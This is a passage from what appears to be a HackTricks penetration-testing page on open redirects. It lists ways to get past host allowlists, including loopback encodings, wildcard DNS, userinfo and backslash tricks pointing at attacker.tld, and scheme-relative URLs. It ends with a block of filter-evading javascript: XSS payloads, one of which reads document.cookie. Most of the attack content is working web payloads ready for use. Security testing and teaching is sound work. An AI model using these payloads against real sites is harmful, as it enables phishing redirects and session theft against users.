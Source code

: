 # Open Redirect

{{#include ../banners/hacktricks-training.md}}


## Open redirect

### Redirect to localhost or arbitrary domains

- If the app “allows only internal/whitelisted hosts”, try alternative host notations to hit loopback or internal ranges via the redirect target:
  - IPv4 loopback variants: 127.0.0.1, 127.1, 2130706433 (decimal), 0x7f000001 (hex), 017700000001 (octal)
  - IPv6 loopback variants: [::1], [0:0:0:0:0:0:0:1], [::ffff:127.0.0.1]
  - Trailing dot and casing: localhost., LOCALHOST, 127.0.0.1.
  - Wildcard DNS that resolves to loopback: lvh.me, sslip.io (e.g., 127.0.0.1.sslip.io), traefik.me, localtest.me. These are useful when only “subdomains of X” are allowed but host resolution still points to 127.0.0.1.
- Network-path references often bypass naive validators that prepend a scheme or only check prefixes:
  - //attacker.tld → interpreted as scheme-relative and navigates off-site with the current scheme.
- Userinfo tricks defeat contains/startswith checks against trusted hosts:
  - https://trusted.tld@attacker.tld/ → browser navigates to attacker.tld but simple string checks “see” trusted.tld.
- Backslash parsing confusion between frameworks/browsers:
  - https://trusted.tld\@attacker.tld → some backends treat “\” as a path char and pass validation; browsers normalize to “/” and interpret trusted.tld as userinfo, sending users to attacker.tld. This also appears in Node/PHP URL-parser mismatches.

{{#ref}}
ssrf-server-side-request-forgery/url-format-bypass.md
{{#endref}}

### Modern open-redirect to XSS pivots

```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

# Abuse bad subdomain filter
javascript://sub.domain.com/%0Aalert(1)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
```